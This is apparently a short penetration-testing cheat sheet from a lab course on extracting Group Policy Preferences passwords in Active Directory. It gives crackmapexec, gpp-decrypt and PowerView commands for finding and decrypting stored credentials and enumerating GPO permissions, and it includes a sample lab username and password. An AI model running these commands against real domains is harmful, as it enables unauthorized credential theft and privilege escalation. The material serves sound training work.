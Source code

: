 

#### Group Policy Preferences (GPP) Passwords

When a new GPP is created, an groups.xml file is created in the SYSVOL share

File Contents
- Map drives (drives.xml)
- Create local users
- Create printer config files (printers.xml)
- Creating and updating services (services.xml)
- Creating scheduled tasks (scheduledtasks.xml)
- Changing local admin passwords.


[Locate GPP Password Tool](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1)

Locate gpp with crackmap
```shell-session
crackmapexec smb -L | grep gpp
```


Decrypt cipher password stores in groups.xml
```shell-session
gpp-decrypt VPe/o9YRyz2cksnYRbNeQj35w9KxQ5ttbvtRaAVqxaE
```

Auto login with crackmapexec
```shell-session
crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 -M gpp_autologin
```


Enumerating group policy via powerview
```powershell-session
Get-DomainGPO |select displayname
```

Enumerating group policy via cmdlet
```powershell-session
Get-GPO -All | Select DisplayName
```

Enum group policy rights
```powershell-session
PS C:\htb> $sid=Convert-NameToSid "Domain Users"
PS C:\htb> Get-DomainGPO | Get-ObjectAcl | ?{$_.SecurityIdentifier -eq $sid}
```
